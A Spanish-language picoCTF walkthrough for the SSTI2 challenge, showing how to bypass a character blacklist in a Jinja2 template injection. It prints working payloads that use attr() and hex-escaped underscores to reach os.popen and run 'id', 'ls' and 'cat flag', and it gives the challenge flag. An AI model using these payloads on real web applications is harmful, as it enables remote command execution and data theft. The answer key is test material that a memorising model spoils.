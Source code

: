 
## Descripción

*I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:53507/)!*
## Pistas

*Server Side Template Injection*

*Why is blacklisting characters a bad idea to sanitize input?*

## Solución


```
#Quice hacer lo mismo que en SSTI1 no se pudo porque ahora en las pistas decia que habia una lista negra, ya habi mas seguridad, entonces buscando encontre que

el {{ 7 * 7 }} y darle ok si da el 49, 
si poniamos ```text
{{ request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('id')['read']() }} obteniamos un stop trying to break me

regresamos y para evadir la lista de bloqueos insertamos:
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
el cual si nos permitio seguir, ahora ponemos ls 
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')()}}
y nos dice que si esta la bandera.
hacemos un cat:
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}

y la va a mostrar 
# picoCTF{sst1_f1lt3r_byp4ss_5b0b2f79}
```
picoCTF{sst1_f1lt3r_byp4ss_5b0b2f79}
## Notas Adicionales 

## Referencias 
http://shape-facility.picoctf.net:53507/
https://aathilducky.com/ssti2-picoctf-walkthrough-web-exploitation-challenge-guide/